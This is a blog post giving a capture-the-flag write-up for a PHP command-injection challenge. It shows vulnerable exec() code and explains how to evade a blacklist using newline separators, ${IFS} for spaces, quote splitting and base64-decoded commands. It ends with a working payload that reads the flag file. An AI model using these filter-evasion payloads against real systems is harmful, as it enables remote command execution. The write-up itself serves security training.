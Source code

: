 ```yaml
---
layout:     post
title:      "CTFHUB 技能树-Web-RCE-综合过滤 wp"
subtitle:   ""
date:       2020-03-05 21:20:00
author:     "WuJ"
header-img: "img/img10.jpg"
tags:
    - CTFHUB
    - writeup
catalog: true
---
```




## 题目考点

- 命令执行绕过

--------

## 解题思路

![Xnip2020-03-05_20-57-49](https://tva1.sinaimg.cn/large/00831rSTgy1gcjclhhorrj310y0u0jwt.jpg)

​		给了源码，发现过滤了 `| & ; 空格 cat flag ctfhub`

​		如果输入上述符号或命令，只会回显其本身而不会被执行，需要一个个绕过

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

#### 命令分隔符

​		因为 `| 和 ;` 被过滤，首先要想办法分隔命令，可以使用多种绕过方法，一般用换行即 `%0a %0d` 即可。当然，得抓包修改，直接敲在输入框里肯定不行。

![Xnip2020-03-05_21-00-11](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcnz5t9dj31310u0qtk.jpg)

我们发现 `flag_is_here` 文件夹，下一步是想办法进去

#### 绕过空格

方法很多，一般可以使用 `${IFS}`，更多请参考谷歌

#### 绕过黑名单

1. 拼接绕过

   ```shell
   ~$ echo "hello world" > flag
   ~$ a=c;b=at;c=flag;$a$b $c
   hello world
   ```

2. 单双引号

   ```shell
   ~$ c''at f''lag
   hello world
   ```

3. base64绕过

   ```shell
   ~$ `echo "Y2F0IGZsYWc="|base64 -d`
   hello world
   ```

   ![Xnip2020-03-05_21-10-57](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcywtw6kj31cu0u0qkt.jpg)

   找到 flag 文件，运用上述知识继续读 flag

   ```php
   /?ip=%0acd${IFS}f''lag_is_here%0ac''at${IFS}f''lag_244281822710491.php
   ```

![Xnip2020-03-05_21-12-30](https://tva1.sinaimg.cn/large/00831rSTgy1gcjd2bvlntj31cl0u0ngq.jpg)

